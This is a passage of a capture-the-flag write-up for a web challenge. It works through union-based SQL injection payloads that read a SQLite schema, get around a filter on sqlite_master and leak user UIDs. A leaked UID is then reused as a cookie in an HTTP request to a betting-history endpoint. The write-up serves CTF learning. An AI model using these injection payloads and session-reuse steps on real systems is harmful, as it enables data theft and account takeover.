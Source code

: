 As we had union based sql injection, we read the schema from the `sqlite_schema` (sqlite_master was filtered in the input, and we kinda knew that the backend was sqlite from the web-300 challenge):

```
year=' union select sql,1337 from sqlite_schema-- -

=>

<td class="prize">CREATE TABLE bets_hall_of_fame (
        uid text PRIMARY KEY,
        name text,
        money int,
        year text,
        CHECK(
            length("id") == 36
        )
)</td>
```

With that we can leak the uid's from the bets_hall_of_fame table with `year=' union select uid,1337 from bets_hall_of_fame-- -` to get a uid that would maybe have >= 100 euros OR access to the betting history feature (in this case the uuid's could not be used to get the flag, but they gave us access to the bets_history endpoint).

```
POST /web2-3c91477fb7fb643fc15d090da43cb634f20f0ed7/bets_history HTTP/1.1
Host: gamebox1.reply.it
Content-Length: 19
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: UID=<UID FROM THE DATABASE>
Connection: close

fight_id=1697230500
```

=>

```html
    <tr>
        <th scope="row">2023-10-13T20:55:00+00:00</th>
        <td class="prize">hopeful ishizaka</td>
    </tr>
    
    <tr>
        <th scope="row">2023-10-13T20:54:00+00:00</th>
        <td class="prize">stupefied raman</td>
    </tr>
    
    <tr>
        <th scope="row">2023-10-13T20:53:00+00:00</th>
        <td class="prize">suspicious hofstadter</td>
    </tr>
```

With that we can just manually win 10 games in a row and claim our flag!
